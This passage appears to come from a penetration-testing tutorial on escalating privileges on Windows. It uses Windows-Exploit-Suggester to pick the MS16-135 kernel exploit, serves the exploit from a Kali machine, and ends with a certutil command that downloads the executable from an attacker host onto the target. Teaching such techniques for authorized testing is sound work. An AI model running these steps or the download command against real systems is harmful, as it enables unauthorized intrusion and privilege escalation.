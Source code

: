 1. In order to use the Windows-Exploit-Suggester tool, you will need to run the following commands:

        ./windows-exploit-suggester.py --update

    The preceding command will download the vulnerability database and save it as a .xlsx file. We will be utilizing this vulnerability database to identify vulnerabilities on the target system.

1. The next step will involve enumerating the target operating system information and configuration, this can be done by running the following command in a Windows command shell:

        systeminfo

    As shown in the following screenshot, this command will output important operating system information and configuration data.

    ![systeminfo output](systeminfo-output.png "systeminfo output")

    We will need to copy this information and paste it into a file called “systeminfo.txt”. We will be using this file to identify Kernel exploits with the Windows-Exploit-Suggester.

1. We can now utilize the Windows-Exploit-Suggester to identify vulnerabilities for our target system, this can be done by running the following command on Kali:

        ./windows-exploit-suggester.py --database <DATABASE.XLSX> --systeminfo <SYSTEMINFO.TXT>

    As shown in the following screenshot, Windows-Exploit-Suggester will display a list of vulnerabilities that we can exploit on the target system in order to elevate our privileges.

    ![Windows Kernel Exploits - Windows-Exploit-Suggester output](windows-kernel-exploits-windows-exploit-suggester-output.png "Windows Kernel Exploits - Windows-Exploit-Suggester output")

1. It is always recommended to use the first exploit recommended by the Windows-Exploit-Suggester. In this case, we will start off with the MS16-135 kernel exploit. We will need to determine more information about the exploit and how it should be used. This can be done  by performing a quick Google search as highlighted in the following screenshot:

    ![MS16-135 exploit Google search results](ms16-135-exploit-google-search-results.png "MS16-135 exploit Google search results")

    The Google search reveals a GitHub repository that contains information regarding the exploit, the exploit source code, and how it should be used.

    It is always recommended to analyze the source code to ensure that it is not malicious and works as intended to make any additional modifications required. In this case, we will be using the prebuilt exploit as shown in the following screenshot.

    ![MS16-135 on GitHub](ms16-135-on-github.png "MS16-135 on GitHub")

    After downloading the pre-built exploit executable, we will need to transfer it over to the target system.

1. We can now transfer the exploit executable to the target system, this can be done by starting a local web server on the Kali VM with the SimpleHTTPServer Python module:

        sudo python -m SimpleHTTPServer 80

1. In order to transfer the exploit executable onto the target system, we can utilize the certutil utility. This can be done by running the following command on the target system:

        certutil -urlcache -f http://<KALI-IP>/41015.exe exploit.exe
